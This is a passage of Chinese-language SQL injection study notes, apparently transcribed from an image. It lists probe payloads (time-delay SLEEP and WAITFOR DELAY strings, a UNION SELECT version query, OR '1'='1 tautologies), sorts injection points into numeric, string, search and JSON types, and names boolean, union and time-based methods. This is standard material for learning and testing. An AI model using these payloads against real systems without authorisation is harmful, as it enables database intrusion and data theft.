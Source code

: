 5. **时间延迟测试：**

   ```
   ?id=1' AND SLEEP(5)--
   ?id=1' WAITFOR DELAY '0:0:5'--
   ```

6. **报错注入：**

   ```
   ?id=1' UNION SELECT 1,@@VERSION,3--
   ```

7. **逻辑测试：**

   ```
   ?id=1' OR '1'='1
   ?id=1' AND '1'='2
   ```

## 2 分类

数字型

```
select * from sec where id=1
```

字符型

```
select * from sec where id='1'
```

搜索型

```
select * from sec where id like '%1%'
```

json型

```
{
    "id":"1"
}
```

## 3 注入方式

布尔注入：

根据返回页面的真假判断

联合查询：

使用 union 注入

延时注入：

根据页面的响应时间判断
